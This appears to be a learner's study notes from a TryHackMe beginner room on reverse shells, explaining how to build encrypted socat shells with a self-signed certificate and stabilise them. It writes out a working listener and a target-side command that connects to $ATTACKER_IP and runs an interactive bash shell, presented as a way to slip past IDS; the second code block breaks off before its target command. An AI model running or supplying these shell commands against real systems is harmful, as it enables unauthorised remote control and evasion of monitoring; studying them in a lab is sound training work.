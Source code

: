 # TryHackMe: Complete Beginner

## What the Shell?

### Socat Encrypted Shells

Socat can also make encrypted connections, which foil after-the-fact network analysis and may circumvent IDS entirely.

```bash
# Generate a self-signed certificate.
#
openssl req -newkey rsa:2048 \
            -nodes \
            -keyout shell.key \
            -x509 \
            -days 362 \
            -out shell.crt

# Create a PEM file combining the certificate and key.
#
cat shell.key shell.crt > shell.pem

# Start a listener.
#
socat \
OPENSSL-LISTEN:$LISTENER_PORT,cert=shell.pem,verify=0 -

# Start the reverse shell on the target.
#
socat \
OPENSSL:$ATTACKER_IP:$LISTENER_PORT,verify=0 \
EXEC:"/bin/bash -li"
```

The PEM file needs to be generated on whichever system is listening, so for a bind shell the first two steps will need to be done on the target instead of the attacker. The `verify=0` directive turns off certificate validation, so this isn’t a “secure” connection in the sense that it’s been *authenticated*, but it is secure in the sense that it’s *encrypted*.

Since Windows doesn’t have an OpenSSL binary installed by default, it will generally be necessary to copy the PEM file across from the attacker.

Auto-stabilized shell using encryption (UNIX-like targets only):

```bash
# Attacker: Connect $LISTENER_PORT to the current TTY,
# send raw keycodes, and turn off terminal echo.
# Basically the `stty raw -echo`.
#
socat \
OPENSSL-LISTEN:$LISTENER_PORT,cert=shell.pem,verify=0 \
FILE:`tty`,raw,echo=0

# Target: Connect the listener on the attacker to an
# interactive login bash shell.
#
#     pty    - allocate a PTTY
#     stderr - redirect STDERR to the attacker
#     sigint - pass signals (Ctrl+C) through
#     setsid - use a new session
#     sane   - use a variety of tweaks to “normalize” the
#              terminal’s environment
#
```